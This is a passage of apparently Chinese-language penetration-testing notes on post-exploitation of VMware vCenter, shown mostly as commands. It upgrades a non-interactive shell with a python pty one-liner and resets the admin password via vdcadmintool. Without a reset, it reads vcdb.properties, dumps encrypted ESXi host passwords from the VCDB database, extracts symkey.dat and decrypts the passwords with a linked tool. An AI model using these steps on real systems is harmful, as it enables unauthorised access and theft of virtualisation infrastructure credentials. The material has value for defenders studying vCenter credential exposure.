 ![styrmfmfl2_AgaGTkpKg8.png](assets/1698900866-f637415da5e4c9e65cdc383d46beb506.png)

但一般打完是非交互式shell，没有回显，这里使用命令切换为交互式shell

`python -c 'import pty;pty.spawn('/bin/bash')'`

重置密码

`/usr/lib/vmware-vmdir/bin/vdcadmintool`

**不重置密码获取密码**

[https://github.com/shmilylty/vhost\_password\_decrypt](https://github.com/shmilylty/vhost_password_decrypt "https://github.com/shmilylty/vhost_password_decrypt")

```php
#获取vc用户的密码  
cat /etc/vmware-vpx/vcdb.properties  
​  
#把加密后的密码单独拿出来，  
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip\_address,user\_name,password from vpx\_host;" > password.enc  
#改成这种格式\*  
H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==\*  
zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==\*  
Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==\*  
R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==  
​  
#拿解密key  
cat /etc/vmware-vpx/ssl/symkey.dat  
Windows：C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\ssl\\symkey.dat  
Linux：/etc/vmware-vpx/ssl/symkey.dat  
​  
#破解  
python decrypt.py symkey.dat password.enc pass.txt
```
